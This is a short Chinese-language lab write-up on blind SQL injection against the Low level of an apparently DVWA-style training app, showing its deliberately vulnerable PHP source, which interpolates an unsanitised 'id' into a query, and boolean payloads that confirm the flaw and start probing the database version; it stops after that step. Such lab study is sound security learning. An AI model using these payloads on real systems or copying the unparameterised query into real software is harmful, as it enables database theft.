

## SQL Injection (Blind)

當攻擊者執行SQL注入攻擊時，Server會response來自資料庫錯誤訊息，報告SQL語法不正確，SQL盲注入是指攻擊者進行攻擊時得不到有用報錯訊息，而是開發人員指定的通用介面。
但還是有辦法讓攻擊手透過一系列真假問題來竊取數據

### Low Level 


SourceCode 
```php
<?php

if(isset($_GET['Submit'])){
    // Get input
    $id = $_GET['id'];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $getid); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows($result); // The '@' character suppresses errors
    if($num > 0){
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else{
        // User wasn't found, so the page wasn't!
        header($_SERVER['SERVER_PROTOCOL'] . ' 404 Not Found');

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```
程式碼然對id完全信任，但如果搜尋失敗，只會回傳開發人員指定的echo


### 攻擊方式
1. 判斷注入類型

    1' and 1 = 1 # exists 

    1' and 1 = 2 # MISSING 

    有此可知，此題有SQL盲注漏洞，且是string類型的漏洞

2. 取得version

    1' and length(substr((select version()),1)) = 1 # MISSING

    
    
